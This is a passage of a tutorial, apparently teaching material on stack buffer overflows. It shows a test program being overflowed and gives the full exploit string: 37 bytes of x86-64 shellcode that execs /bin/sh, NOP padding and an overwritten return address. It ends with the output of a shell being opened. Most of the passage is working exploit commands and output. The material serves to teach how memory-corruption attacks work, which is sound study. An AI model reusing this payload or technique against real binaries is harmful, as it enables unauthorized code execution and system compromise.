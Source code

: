 When we execute `exploit` with an input argument exactly matching  the buffer size, the `copy` function happily returns to the main program.
```console
> ./exploit "12345678123456781234567812345678123456781234567"
&buf 0x00007fffffffe480 rbp 0x00007fffffffe4d0 rip 0x00005555555551e7
We happily returned!
```
Since the saved `%rip` is at an offset of 56 bytes from the start address of `buf` we append 19 `nop` operations to the 37 byte shell code before overwriting the return address with the start addresss `0x7fffffffe470` of the buffer.
```console
> export STR=`echo -e -n "\xeb\x17\x5f\x48\x31\xd2\x88\x57\x07\x48\x89\x7f\x08\x48\x89\x57\x10\x48\x8d\x77\x08\xb0\x3b\x0f\x05\xe8\xe4\xff\xff\xff/bin/sh\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x70\xe4\xff\xff\xff\x7f"`
```
When we execute `exploit` with the shell code, the `copy` function never returns to the main program but opens a shell instead.
```console
> ./exploit $STR
&buf 0x00007fffffffe470 rbp 0x9090909090909090 rip 0x00007fffffffe470
# 
```

Author:  [Andreas Steffen][AS] [CC BY 4.0][CC]

[AS]: mailto:andreas.steffen@strongsec.net
[CC]: http://creativecommons.org/licenses/by/4.0/

